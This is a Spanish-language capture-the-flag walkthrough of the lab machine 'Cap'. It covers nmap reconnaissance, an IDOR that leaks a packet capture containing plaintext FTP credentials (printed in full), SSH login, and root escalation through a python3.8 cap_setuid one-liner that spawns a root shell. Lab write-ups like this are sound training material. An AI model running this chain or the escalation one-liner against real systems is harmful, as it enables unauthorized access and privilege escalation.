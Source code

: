 # Cap 
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/cap.png" alt="cap" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Insecure Directory Object Reference (IDOR)</li>
        <li>Information Leakage</li>
        <li>Abusing Capabilities (Python3.8) [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.245                   
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.245
```

## Revisamos la pag web

Se puede ver que cuando intentamos acceder al recurso `http://10.10.10.245/data/0` obtenemos un fichero que se puede analizar con la herramienta `Wireshark`

Encontramos los siguientes datos relevantes:
![alt text](Imagenes/Cap.png)
```
User:nathan
Passwd:Buck3tH4TF0RM3!
```

## Acceso ftp:
Probamos esas credenciales en el servicio `ftp` y accedemos al servicio 
con el comando `get user.txt` obtenemos la primera flag.

```shell
ftp nathan@10.10.10.245
```

```shell
ftp> ls
229 Entering Extended Passive Mode (|||11864|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 22 10:28 user.txt
226 Directory send OK.
ftp> get user.txt
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh nathan@10.10.10.245
```

## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:
```shell
sudo -l
```
Sin embargo no obtenemos nada.
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap
```
Comprobamos los ficheros que tenemos para explotar los permisos de SUID.
```shell
find / -perm -4000 -user root 2>/dev/null | xargs ls -l
```
```shell
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2066/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2066/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2066/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2066/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2074/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2074/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2074/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2074/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root            111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root            111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root             85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root             53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root             39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root             88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root             55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root             44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root             68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root             31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root             67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root            166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root             39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-- 1 root messagebus       51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root             14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root            473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root            130152 Feb  2  2021 /usr/lib/snapd/snap-confine
```

No aparece nada intersante...

Por último comprobamos las `capabilities` con el siguiente comando:

```shell
getcap -r / 2>/dev/null
```

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El más intersante es la de `python3.8` que cambiando la capability `cap_setuid` podemos ser root para ellos lo comprobamos con el siguiente comando:

```shell
python3.8 -c 'import os;os.setuid(0);os.system("whoami")'
```
y vemos como nos devuelve `root` 

Por lo tanto vamos a cambiar esta capability

```shell
python3.8 -c 'import os;os.setuid(0);os.system("bash")'
```

Obtenemos una shell de bash con los máximos privilegios y podemos acceder a `root.txt` 